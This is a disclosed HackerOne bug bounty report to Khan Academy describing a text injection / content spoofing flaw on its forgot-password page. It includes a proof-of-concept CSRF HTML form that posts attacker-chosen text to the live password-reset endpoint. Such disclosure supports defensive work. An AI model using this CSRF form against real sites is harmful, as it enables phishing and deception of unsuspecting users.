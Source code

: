 # The web app's forgot password page is vulnerable to text injection/content spoofing

## Report Details
- **Report ID**: 159213
- **URL**: https://hackerone.com/reports/159213
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-14T09:16:21.307Z
- **Disclosed**: 2017-03-01T15:53:53.226Z

## Reporter
- **Username**: saurabhb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: khanacademy

## Vulnerability Information
An attacker will exploit this by chaining it with CSRF (there is not protection against CSRF for that page) as scenario can only be created by a POST request.
The attacker will target innocent users by doing this and some of them would fall in trap by calling the number or by sending the email. More about attack scenario at https://www.owasp.org/index.php/Content_Spoofing

Refer the attached image as proof of concept.

Also the proof of exploiting it using CSRF is:

<html>
  <body>
    <form action="https://www.khanacademy.org/forgotpw" method="POST">
      <input type="hidden" name="email" value="<the malicous text will come here>" />
      <input type="hidden" name="reset" value="Reset&#32;password" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

## Attachments
No attachments
